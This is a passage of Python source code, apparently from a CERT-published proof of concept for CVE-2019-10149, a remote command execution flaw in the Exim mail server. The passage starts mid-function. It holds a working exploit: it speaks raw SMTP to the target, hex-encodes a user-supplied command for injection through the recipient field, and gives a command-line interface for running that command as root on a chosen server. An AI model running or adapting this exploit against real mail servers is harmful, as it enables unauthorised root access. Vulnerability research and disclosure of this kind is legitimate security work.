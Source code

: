 ```python
                        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.connect(server)
                        s.recv(1024)
                        print("[+] Sending commands to the Exim Server")
                        s.send("HELO evil.localhost\r\n".encode())
                        s.recv(1024)
                        s.send("MAIL FROM: <>\r\n".encode())
                        s.recv(1024)
                        s.send("RCPT TO:".encode() + rcpt.encode() + "\r\n".encode())
                        s.recv(1024)
                        s.send("DATA\r\n".encode())
                        s.recv(1024)
                        s.send(message.encode() + "\r\n.\r\n".encode())
                        s.recv(1024)
                        s.send("QUIT\r\n".encode())
                except Exception as e:
                        print("[--] The server is not responding[--]")

        def cmd(self,command,server):
                cmd = []
                for letter in command:
                        c=hex(ord(letter))
                        cmd.append(c)
                        hex_cmd = ''.join(cmd).replace("0x","\\x")
                self.smtp_connect(hex_cmd,server)

if __name__ == '__main__':
        parser = argparse.ArgumentParser(description = "[MNEMO-CERT] - PoC CVE-2019-10149 Exim - Command Execution as root")
        parser.add_argument('-s','--server', help="Exim server IP address and port <IP:Port> - Default: localhost:25")

        requiredArg = parser.add_argument_group("Required argument")
        requiredArg.add_argument('-c','--cmd', help='Type the command you want to execute through Exim')
        args, unknown = parser.parse_known_args()
        if args.server is not None:
                srv = args.server.split(":")
                server = (srv[0],int(srv[1]))
        else:
                server = ("localhost", 25)

        if args.cmd:
                mnemo = exim_rce()
                cmd = args.cmd
                mnemo.cmd(cmd,server)

        else:
                parser.print_help()
                sys.exit(1)
```
